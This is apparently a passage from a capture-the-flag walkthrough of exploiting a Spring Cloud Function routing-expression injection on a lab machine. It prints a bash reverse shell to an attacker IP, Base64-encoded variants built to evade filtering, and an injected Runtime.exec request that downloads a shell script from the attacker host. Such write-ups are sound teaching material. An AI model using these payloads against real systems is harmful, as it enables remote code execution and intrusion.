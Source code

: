 There’s no connection at my `nc` listening on 443.

I’ll encode the payload with Base64:

```

oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==

```

With a couple extra spaces I can get rid of the special characters (`+` and `=`):

```

oxdf@hacky$ echo ' bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64 -w0
IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMQo=
oxdf@hacky$ echo ' bash -i >& /dev/tcp/10.10.14.6/443 0>&1 ' | base64 -w0
IGJhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMSAK

```

I can try that as well by sending this:

![image-20230313184201736](/img/image-20230313184201736.png)

It still doesn’t connect.

#### Success By curl

My original solve was to try to use `curl` to request a payload from my host and pipe that into `bash`.

![image-20230313184312048](/img/image-20230313184312048.png)

I’ll set up a Python webserver (`python -m http.server 80`) and send this request. There is a request back to my server, but it’s for `/shell.sh|bash`:

```

oxdf@hacky$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.204 - - [13/Mar/2023 18:40:40] code 404, message File not found
10.10.11.204 - - [13/Mar/2023 18:40:40] "GET /shell.sh|bash HTTP/1.1" 404 -

```

The `|` is being interpreted as part of the path. Instead, I can save the file in `/tmp`:

```

POST /functionRouter HTTP/1.1
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("curl 10.10.14.6/shell.sh -o /tmp/0xdf.sh")
Host: 10.10.11.204:8080
...[snip]...

```
